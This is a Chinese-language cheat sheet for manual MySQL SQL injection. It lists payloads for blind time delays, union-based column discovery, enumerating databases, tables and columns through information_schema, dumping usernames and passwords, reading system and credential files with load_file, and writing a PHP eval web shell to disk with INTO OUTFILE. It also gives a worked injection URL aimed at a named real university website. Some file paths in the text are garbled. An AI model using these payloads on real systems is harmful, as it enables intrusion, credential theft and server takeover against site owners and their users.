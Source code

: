 暴字段长度<br />
<p>
	<br />
</p>
<p>
	SELECT COUNT(*) AS tp_count FROM `user` WHERE username='wkmz520' OR SLEEP(5) AND 'bNfV'='bNfV&nbsp;
</p>
Order by num/*<br />
<br />
<br />
匹配字段<br />
<br />
and 1=1 union select 1,2,3,4,5…….n/*<br />
<br />
<br />
暴字段位置<br />
<br />
and 1=2 union select 1,2,3,4,5…..n/*<br />
<br />
<br />
利用内置函数暴数据库信息<br />
<br />
version() database() user()<br />
<br />
不用猜解可用字段暴数据库信息(有些网站不适用):<br />
<br />
and 1=2 union all select version() /*<br />
<br />
and 1=2 union all select database() /*<br />
<br />
and 1=2 union all select user() /*<br />
<br />
操作系统信息：<br />
<br />
and 1=2 union all select @@global.version_compile_os from mysql.user /*<br />
<br />
数据库权限：<br />
<br />
and ord(mid(user(),1,1))=114 /* 返回正常说明为root<br />
<br />
<br />
暴库 (mysql&gt;5.0)<br />
<br />
Mysql 5 以上有内置库 information_schema，存储着mysql的所有数据库和表结构信息<br />
<br />
and 1=2 union select 1,2,3,SCHEMA_NAME,5,6,7,8,9,10 from information_schema.SCHEMATA limit 0,1<br />
<br />
<br />
猜表<br />
<br />
and 1=2 union select 1,2,3,TABLE_NAME,5,6,7,8,9,10 from information_schema.TABLES where TABLE_SCHEMA=数据库（十六进制） limit 0（开始的记录，0为第一个开始记录）,1（显示1条记录）—<br />
<br />
<br />
猜字段<br />
<br />
and 1=2 Union select 1,2,3,COLUMN_NAME,5,6,7,8,9,10 from information_schema.COLUMNS where TABLE_NAME=表名（十六进制）limit 0,1<br />
<br />
<br />
暴密码<br />
<br />
and 1=2 Union select 1,2,3,用户名段,5,6,7,密码段,8,9 from 表名 limit 0,1<br />
<br />
高级用法（一个可用字段显示两个数据内容）：<br />
<br />
Union select 1,2,3concat(用户名段,0x3c,密码段),5,6,7,8,9 from 表名 limit 0,1<br />
<br />
<br />
直接写马(Root权限)<br />
<br />
条件：1、知道站点物理路径<br />
<br />
2、有足够大的权限（可以用select …. from mysql.user测试）<br />
<br />
3、magic_quotes_gpc()=OFF<br />
<br />
select ‘&lt;?php eval($_POST[cmd])?&gt;' into outfile ‘物理路径'<br />
<br />
and 1=2 union all select 一句话HEX值 into outfile '路径'<br />
<br />
<br />
load_file() 常用路径：<br />
<br />
1、replace(load_file(0×2F6574632F706173737764),0×3c,0×20)<br />
2、replace(load_file(char(47,101,116,99,47,112,97,115,115,119,100)),char(60),char(32))<br />
上面两个是查看一个PHP文件里完全显示代码.有些时候不替换一些字符,如 “&lt;” 替换成”空格” 返回的是网页.而无法查看到代码.<br />
3、load_file(char(47)) 可以列出FreeBSD,Sunos系统根目录<br />
4、/etc tpd/conf tpd.conf或/usr/local/apche/conf tpd.conf 查看linux APACHE虚拟主机配置文件<br />
5、c:\Program Files\Apache Group\Apache\conf \httpd.conf 或C:\apache\conf \httpd.conf 查看WINDOWS系统apache文件<br />
6、c:/Resin-3.0.14/conf/resin.conf 查看jsp开发的网站 resin文件配置信息.<br />
7、c:/Resin/conf/resin.conf /usr/local/resin/conf/resin.conf 查看linux系统配置的JSP虚拟主机<br />
8、d:\APACHE\Apache2\conf\httpd.conf<br />
9、C:\Program Files\mysql\my.ini<br />
10、../themes/darkblue_orange/layout.inc.php phpmyadmin 爆路径<br />
11、 c:\windows\system32\inetsrv\MetaBase.xml 查看IIS的虚拟主机配置文件<br />
12、 /usr/local/resin-3.0.22/conf/resin.conf 针对3.0.22的RESIN配置文件查看<br />
13、 /usr/local/resin-pro-3.0.22/conf/resin.conf 同上<br />
14 、/usr/local/app/apache2/conf/extra tpd-vhosts.conf APASHE虚拟主机查看<br />
15、 /etc/sysconfig/iptables 本看防火墙策略<br />
16 、usr/local/app/php5 b/php.ini PHP 的相当设置<br />
17 、/etc/my.cnf MYSQL的配置文件<br />
18、 /etc/redhat-release 红帽子的系统版本<br />
19 、C:\mysql\data\mysql\user.MYD 存在MYSQL系统中的用户密码<br />
20、/etc/sysconfig/network-scripts/ifcfg-eth0 查看IP.<br />
21、/usr/local/app/php5 b/php.ini //PHP相关设置<br />
22、/usr/local/app/apache2/conf/extra tpd-vhosts.conf //虚拟网站设置<br />
23、C:\Program Files\RhinoSoft.com\Serv-U\ServUDaemon.ini<br />
24、c:\windows\my.ini<br />
25、c:\boot.ini<br />
<br />
网站常用配置文件<br />
<br />
config.inc.php、config.php。load_file（）时要用replace（load_file(HEX)，char(60),char(32)）<br />
<br />
注：<br />
<br />
Char(60)表示 &lt;<br />
<br />
Char(32)表示 空格<br />
<br />
<br />
手工注射时出现的问题：<br />
<br />
当注射后页面显示：<br />
<br />
Illegal mix of collations (latin1_swedish_ci,IMPLICIT) and (utf8_general_ci,IMPLICIT) for operation 'UNION'<br />
<br />
如：http://www.mse.tsinghua.edu.cn/mse/research/instrument.php?ID=13%20and%201=2%20union%20select%201,load_file(0x433A5C626F6F742E696E69),3,4,user()%20<br />
<br />
这是由于前后编码不一致造成的，<br />
<br />
解决方法：在参数前加上 unhex(hex(参数))就可以了。上面的URL就可以改为：<br />
<br />
http://www.mse.tsinghua.edu.cn/mse/research/instrument.php?ID=13%20and%201=2%20union%20select%201,unhex(hex(load_file(0x433A5C626F6F742E696E69))),3,4,unhex(hex(user()))%20<br />
<br />
既可以继续注射了。。。<br />